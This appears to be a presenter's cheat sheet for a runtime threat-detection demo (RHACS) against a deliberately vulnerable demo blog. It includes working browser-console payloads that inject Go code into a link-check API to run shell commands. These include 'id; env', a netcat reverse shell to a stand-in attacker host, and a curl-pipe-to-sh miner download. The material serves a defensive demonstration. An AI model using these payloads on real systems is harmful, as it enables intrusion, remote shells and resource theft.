

repository: ralvares/security-demos · page: threat-detection-response/docs/CHEATSHEET/index.html · generator: mkdocs

# Cheat sheet

One page to memorize. Read it the night before. Keep it next to the laptop. The full text is in
[SCRIPT.md](SCRIPT.md).

### Fire the attack from the browser (no terminal)

Open `https://blog-unhackable.apps-crc.testing/write` → **F12 → Console** → paste. The `/write` box only
forwards real links, so the attacker goes around it and POSTs to the API. Same code path, same detections.
(In [TALK.html](TALK.html) each box has a **Copy** button.)

**Step 1 — show it runs any command** (who am I, what is in my env):

```js
const cmd = "id; env";
const rule = `(func() string { c, _ := base64.StdEncoding.DecodeString("${btoa(cmd)}"); out, _ := exec.Command("sh", "-c", string(c)).Output(); return string(out) })()`;
fetch('/api/links/check', {method:'POST', headers:{'Content-Type':'application/json'}, body: JSON.stringify({urls:[rule]})})
  .then(r => r.json()).then(d => console.log(d.results[0].detail || d.results[0]));
```

**Step 2 — later, the reverse shell** (C2 listener up first), or swap `cmd` for the miner `curl -s http://attacker.example.local:8080/stage.sh | sh`:

```js
const cmd = "nohup nc attacker.example.local 4444 -e /bin/sh >/dev/null 2>&1 & echo '[+] reverse shell launched'";
const rule = `(func() string { c, _ := base64.StdEncoding.DecodeString("${btoa(cmd)}"); out, _ := exec.Command("sh", "-c", string(c)).Output(); return string(out) })()`;
fetch('/api/links/check', {method:'POST', headers:{'Content-Type':'application/json'}, body: JSON.stringify({urls:[rule]})})
  .then(r => r.json()).then(d => console.log(d.results[0].detail || d.results[0]));
```

### The spine — if you forget everything, say this

Every check happens during build and during deployment — **before** the application runs.
**Secure today. Maybe not tomorrow.** RHACS rescans every 4 hours. But no scan can see
**what nobody knows yet**, **what nobody noticed**, or **what somebody hid**.
**A scan sees what is known. Runtime sees what happens. RHACS does both.**

### The five words

| Word | What RHACS knows | Where it pays off |
|---|---|---|
| **Made of** | libraries, packages, where it comes from | Act 1: zero CVEs. Tour: still zero |
| **Deployed** | user, privileges, secrets, exposure | Act 1: hardened. Act 3: no token, no secrets — only fake keys |
| **Talks to** | services, namespaces, the internet | Act 3: blog → payments. Act 4: three connections to the attacker |
| **Behaves** | programs, files, what is normal | Act 2: one program in the normal list. Act 4: file dropped in `/tmp` |
| **Acts** | kills the pod, shows what to block | Act 5: kill, then the network policy |

### Numbers to get right

| Number | What it is |
|---|---|
| **0** | CVEs — v1, and still v2 |
| **1** | dependency (yaegi). **1** program in the normal list: the blog itself |
| **4 hours** | RHACS rescans every running image |
| **2 · 1 · 1** | writable folders · secret · port (the Risk page) |
| **2** | trap files: `~/.aws/credentials` and `/opt/blog/.env` |
| **3** | connections to the attacker: download, mining pool, shell |
| **< 1 second** | from the attacker's command to the pod kill |
| **end of October · up to 5,000** | the backdoored Claude Code extension in the Cursor store |
